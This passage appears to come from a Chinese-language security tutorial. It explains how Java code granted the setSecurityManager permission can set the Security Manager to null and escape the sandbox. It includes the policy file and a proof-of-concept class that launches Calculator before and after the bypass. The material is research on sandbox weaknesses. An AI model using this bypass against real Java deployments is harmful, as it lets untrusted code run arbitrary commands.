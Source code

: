 **修复方式**：使用双等号单个policy文件

## setSecurityManager绕过

- Java Security Manger可以通过jvm参数-Djava.security.policy指定，还可以在运行时通过System.setSecurityManager()方法指定。但是需要被授予setSecurityManager权限，这样代码可以在运行时调用setSecurityManager，将Java Security Manager置为null，从而进行绕过。

- 用到的policy文件如下

  ```
  grant {
      permission java.lang.RuntimePermission "setSecurityManager";
  };
  ```

- 在demo运行如下代码，加上-Djava.security.manager -Djava.security.policy==set-security-manager.policy参数

  ```
  package com.evil;
  
  public class Poc {
      public static void main(String[] args) {
          //Run with: -Djava.security.manager -Djava.security.policy==set-security-manager.policy
          exec("open -a Calculator");
          bypass();
  
      }
  
      public static void bypass() {
          System.setSecurityManager(null);
          exec("open -a Calculator");
      }
  
      public static void exec(String command) {
          try {
              Runtime.getRuntime().exec(command);
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```

- 在此之前，我已经将home目录下的java.policy删除了，运行后弹出计算器，第一次报错了，但是bypass中的成功执行了
